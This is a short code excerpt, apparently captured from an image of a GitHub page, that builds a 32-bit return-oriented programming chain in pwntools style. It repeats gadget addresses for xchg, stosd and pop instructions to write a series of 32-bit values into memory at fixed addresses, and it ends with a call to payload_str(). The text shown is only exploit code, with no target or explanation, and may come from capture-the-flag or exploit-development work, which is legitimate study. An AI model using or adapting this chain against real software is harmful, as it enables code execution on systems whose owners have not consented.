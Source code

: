 ```
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e364)
chain += p32(0x877332e0)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e368)
chain += p32(0xf830bacb)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e36c)
chain += p32(0x6b3677b2)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e370)
chain += p32(0xd408ed63)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e374)
chain += p32(0x9d3f7159)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e378)
chain += p32(0x72ef1999)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e37c)
chain += p32(0xa387b129)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e380)
chain += p32(0x353628af)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e384)
chain += p32(0xcc95facc)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e388)
chain += p32(0x2124af2)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret
chain += p32(0x808a400)	# pop edi; pop ebp; ret
chain += p32(0x815e38c)
chain += p32(0xffffff74)
chain += p32(0x8111d3d)	# adc al, 0xf; xchg eax, ebp; ret
chain += p32(0x80aabb1)	# stosd dword ptr es:[edi], eax; ret

>>> chain.payload_str()
```